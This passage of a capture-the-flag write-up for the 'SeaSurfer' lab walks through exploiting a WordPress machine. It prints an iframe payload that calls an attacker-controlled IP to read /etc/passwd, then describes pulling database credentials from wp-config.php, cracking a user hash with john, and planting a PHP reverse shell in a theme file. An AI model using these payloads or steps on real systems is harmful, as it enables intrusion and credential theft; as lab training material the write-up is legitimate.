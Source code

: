{{console("<iframe height='2000' width='800' src='http://10.9.1.157:4444/script.php?file=/etc/passwd'></iframe>")}}

{{text("We successfully got a request.")}}

{{image("../../static/writeups/seasurfer/images/000005.jpg")}}

{{text("And we read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code> file.")}}

{{image("../../static/writeups/seasurfer/images/000006.jpg")}}

{{header("Logging into WordPress", "logging-into-wordpress")}}

{{text("Since the web page used WordPress, I tried finding any admin credentials I could use.")}}

{{text("I was able to find credentials in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/wordpress/wp-config.php</code> file. I used the same method as before to do so.")}}

{{image("../../static/writeups/seasurfer/images/000007.jpg")}}

{{text("Before, when I was looking around the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://seasurfer.thm</code> site, I found a directory <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/adminer</code> but didn't have the neccessary credentials. Since we just extracted them, we can log in.")}}

{{text("We find tables that the WordPress site uses. The most interesting one to us is probably the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wp_users</code> table.")}}

{{image("../../static/writeups/seasurfer/images/000008.jpg")}}

{{text("In it we find user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>kyle</code> and his encrypted password. We save it into a file and use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> to crack it.")}}

{{text("We now can log in to the WordPress admin panel at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/wp-admin</code> using those credentials.")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("We can easily get a reverse shell using the admin panel by uploading a PentestMonkey PHP shell as one of the themes.")}}

{{text("We visit <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copy a PentestMonkey PHP reverse shell.")}}

{{text("We navigate to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Theme File Editor</code> in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Appearance</code> tab.")}}

{{text("We paste our shell into a PHP file, for example <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>404.php</code> and save it.")}}

{{text("Then we navigate to that file and execute it. It's located at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://seasurfer.thm/wp-content/themes/twentyseventeen/404.php</code>.")}}

{{text("If we did everything correctly, we should get a connection.")}}

{{image("../../static/writeups/seasurfer/images/000009.jpg")}}
